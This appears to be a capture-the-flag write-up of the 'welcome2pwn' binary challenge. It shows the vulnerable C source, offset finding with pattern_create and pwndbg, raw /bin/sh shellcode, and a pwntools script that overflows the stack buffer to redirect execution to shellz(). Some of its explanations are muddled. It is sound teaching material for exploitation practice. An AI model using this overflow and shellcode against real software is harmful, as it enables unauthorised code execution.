

# welcome2pwn

### Code Analysis

Starting off, we will use *checksec* to look at the properties of this binary. Since NX is enabled, we are unable to execute shellcode and will have to find another way to exploit this script.

​​

```C
// Welcome.c

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

char stuff[0x100];
char * code;

void shellz(void) {
    printf("Here's your shell!\n");
    memcpy(code, stuff, 0x100); 
    typedef void (*func_t)(void);
    ((func_t)code)();
}

int main(void) {
    char buf[0x100];
  
    // Ignore this
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    code = mmap(NULL, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
  
    printf("Welcome to pwn!\n");
    printf("Show me a cool exploit technique!\n");
    printf(">> ");
    fgets(stuff, 0x100, stdin);
    printf("Now tell me where to go: \n");
    printf(">> "); 
    fgets(buf, 0x200, stdin);
    return 0;
}
```

As shown above, there is a function shellz() that we can potentially point the EIP to. From analysing the code above, there are two fgets() function that supposedly take user input. However, *char stuff[0x100];*  is declared outside of the main function, making it a global variable and unable to be overflowed as it's not allocated on the stack.

​`python -c "print('A' * 310)"`​

Hence, we will try to overflow the second input instead. As shown below, we are met with a segmentation fault error, showing us the binary is susceptible to BOF.

​​

Further analysing the code:  
***memcpy(code, stuff, 0x100);***  copies the memory from the "stuff" buffer into a memory block known as "code".  
***typedef void (*func_t)(void);***  defines a function pointer type which is expected to point to a function that takes no arguments ('void') and returns nothing ('void)  
 **((func_t)code)();**  converts the memory block "code" to a function pointer of type "func_t". The function is then called and is pointed by the function pointer "code". As mentioned above, the function takes no arguments and returns nothing.

Hence, we will input "stuff" with shellcode to cat flag.txt (example), overflow the buffer and point the EIP to shellz(), effectively running our code!.  
​​

### Pattern Creation and Fuzzing

To start off, I will create a pattern using metasploit's pattern_create.rb. I will now use pwndbg to debug the application. As shown below, 300 characters was enough to cause a segmentation fault.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300 > pattern.txt
```

​​

​​

​​

### Finding Offset and Controlling Instruction Pointer

As shown above, the RBP (base pointer) points to 'i5Ai6Ai7'. Finding that string from our pattern_create, we can see that the string length would be 264 characters. This means that 264 characters is the **offset** needed to <u>overflow the buffer and write over the RBP</u>. As the architecture is 64-bit, we will add 8 more characters for a total of 272 characters to overwrite the RIP (Instruction Pointer).

​​

​​

We will now create a new payload with 256 characters being 'A', 8 characters being 'B', and another 8 characters as 'C'. As shown below, the RIP register has been completely filled with '43' (C) and the RBP register has completely been filled with '42' (B). Hence, we now control the Instruction Pointer!

```
python -c "print('A' * 256 + 'B' * 8 + 'C' * 8)"
```

​​

​​

Using **info functions** in pwndbg, I managed to find the address of shellz(), 0x0000000000401166. **info address shellz** can also be used, just remember to add enough 0s to form a 16-bit address.

​​

Since the binary uses x86-64 architecture, we will have to apply little endian to the address, 0x6611400000000000 or \x66\x11\x40\x00\x00\x00\x00\x00

​​

We will know get our shellcode for the "stuff" buffer as mentioned above. I used a shellcode that executes /bin/sh from shell-storm.org

\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05

​​

Now, we will echo out our final payload to overflow the buffer with.

```
python -c "print('A' * 256 + 'B' * 8 + '\x66\x11\x40\x00\x00\x00\x00\x00')"
```

​​

Unfortunately, the output does not come out nicely on the terminal. Hence, we will have to use a script to send our payload instead. I will be using Python's pwntools due to how convenient it is.

```python
# BOF Script. Replace proc=process and proc=remote for local and remote use respectively
from pwn import *

# For Local testing
proc = process("./welcome")

# For actual flag challenge use this (since binary hosted remotely)
proc = remote('chal1.lagncra.sh', 8405)
elf = ELF("./welcome")

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'.rstrip()

proc.sendline(shellcode) ## proc.sendline lets you send whatever you want to the binary

padding = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x66\x11\x40\x00\x00\x00\x00\x00'.rstrip()

## figure out how to get the address of the shellz function!
#rip = p64(0x401166) 
## Note that the p64 function converts the order of your bytes to little endian

#payload = padding + rip
payload = padding

#print(payload)

proc.sendline(payload)
proc.interactive() ## Open an interactive session
proc.close()
```

​​

​​

Flag: LNC24{C0MPU73R_G0_brRrRRrRRRRRRrrRrRRRrRrRrRRrRRrRRRRRrRrR}

---

### References:

* https://kaligulaarmblessed.github.io/challenges/lnc4-welcome2pwn/
* https://www.youtube.com/watch?v=6sUd3AA7Q50
* <u>Shellcode:</u>

  * https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow
  * http://shell-storm.org/shellcode/files/shellcode-806.html
  * https://shell-storm.org/shellcode/index.html
  * https://2h3ph3rd.medium.com/basic-shellcode-exploitation-1e9ff274a194
* Future Study Materials:

  * https://pwn.college/

    https://guyinatuxedo.github.io/

    https://ropemporium.com/

    https://crackmes.one/

‍
